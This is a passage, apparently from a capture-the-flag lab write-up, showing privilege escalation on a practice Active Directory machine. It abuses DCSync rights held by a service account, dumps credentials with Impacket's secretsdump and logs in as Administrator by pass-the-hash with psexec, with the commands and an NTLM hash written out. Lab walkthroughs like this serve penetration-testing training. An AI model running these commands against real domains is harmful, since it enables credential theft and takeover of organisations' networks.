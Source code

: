 The path reveals that `svc_loanmgr` has **DCSync privileges**.

---
### 4.5 Exploiting DCSync

Dump credentials with Impacket:

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```

![secretsdump_svc_loanmgr](screenshots/secretsdump_svc_loanmgr.png)

We extract the **Administrator NTLM hash**.

---
### 4.6 Administrator Access

Authenticate using Pass-the-Hash:

```bash
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
```
